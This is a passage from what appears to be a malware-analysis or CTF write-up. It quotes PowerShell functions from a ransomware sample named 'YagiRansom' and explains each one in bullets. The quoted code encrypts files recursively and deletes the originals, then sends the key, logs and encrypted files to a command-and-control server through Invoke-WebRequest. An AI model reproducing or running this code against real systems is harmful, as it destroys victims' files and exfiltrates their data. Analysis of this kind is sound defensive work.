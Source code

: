 - Takes `$args` as input
  - If `$args[0]` is "-t", converts the text in `$args[1]` to bytes using UTF-8, then encodes it using base64 and stores it in `$VaFQ`
  - If `$args[0]` is "-f", reads the file in `$args[1]`, converts it to bytes, then encodes it using base64 and stores it in `$VaFQ`
  - Removes the padding character "=" from base64 and replaces "C" with "-" as well as "E" with "_"
  - Converts `$VaFQ` to a character array stored in `$8bKW`, reverses the array, then joins all characters to create and return `$R64Base`
#### SendResults
```powershell
function SendResults {
   $cvf = Invoke-AESEncryption -Key $Uz19o -Text $WiETm ; $cVl = R64Encoder -t $cvf
   $2YngY = "> $cVl > $OgE > $zVSza > $7VEq"
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch
   $XoX = R64Encoder -t $2YngY ; $B64Logs = R64Encoder -t $RansomLogs
   Invoke-WebRequest -useb "$7CiB`:$UFX/data" -Method POST -Body $XoX 2>&1> $null
   Invoke-WebRequest -useb "$7CiB`:$UFX/logs" -Method POST -Body $B64Logs 2>&1> $null }
```
- Use `AES` on `$WiETm` with the key stored in `$Uz19o` thenstored it in `$cvf`
- `$cvf` then get encoded by `R64Encoder` and stored in `$cVl` 
- Stored `$cVl`, `$OgE`, `$zVSza` and `$7VEq` in `$2YngY` respectively. 
-  Filter all strings, line that have `!` in `$Directory$slash$I26`, excluding all strings have `YagiRansom!` and logs it to `$RansomLogs`
-  Encode `$2YngY` with base64 and stores it in `$XoX`
-  `$RansomLogs` also got encrypted with base64 and stored in `$B64Logs`
-  Send the `$XoX` to endpoint `$7CiB:$UFX/data` and `$B64Logs` to endpoint `$7CiB:$UFX/logs`
#### EncryptFiles
```powershell
function EncryptFiles { 
   $ExcludedFiles = '*.enc', 'yaginote.txt', '*.dll', '*.ini', '*.sys', '*.exe', '*.msi', '*.NLS', '*.acm', '*.nls', '*.EXE', '*.dat', '*.efi', '*.mui'
   foreach ($i in $(Get-ChildItem $Directory -recurse -exclude $ExcludedFiles | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) { 
   Invoke-AESEncryption -Key $WiETm -Path $i ; Add-Content -Path "$Directory$slash$I26" -Value "[!] $i is now encrypted" ;
   Remove-Item $i }
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "[!]" | Select-String "YagiRansom!" -NotMatch ; if (!$RansomLogs) { 
   Add-Content -Path "$Directory$slash$I26" -Value "[!] No files have been encrypted!" }}
```
- Create a exclusion list for the ecnryption function. 
- Browse through the folder and exclude all the files that have extension in the list, put the path in `$i`
- Use AES on `$i` with the key is `$WiETm` and logs them in the format:  `$Directory$slash$I26" -Value "[!] $i is now encrypted`  
- Only log the file has `!` and excluding the `YagiRansom!`
#### ExfiltrateFiles
```powershell
function ExfiltrateFiles {
   Invoke-WebRequest -useb "$7CiB`:$UFX/files" -Method GET 2>&1> $null 
   $RansomLogs = Get-Content "$Directory$slash$I26" | Select-String "No files have been encrypted!" ; if (!$RansomLogs) {
   foreach ($i in $(Get-ChildItem $Directory -recurse -filter *.enc | Where-Object { ! $_.PSIsContainer } | ForEach-Object { $_.FullName })) {
      $Pfile = $i.split($slash)[-1] ; $B64file = R64Encoder -f $i ; $B64Name = R64Encoder -t $Pfile
      Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
   else { $B64Name = R64Encoder -t "none.null" ; Invoke-WebRequest -useb "$7CiB`:$UFX/files/$B64Name" -Method POST -Body $B64file 2>&1> $null }}
```
- Sends an initial request to the C2 server at `$7CiB:$UFX/files` endpoint.
- Checks if any files have been encrypted by searching for the text "No files have been encrypted!" in the ransom note.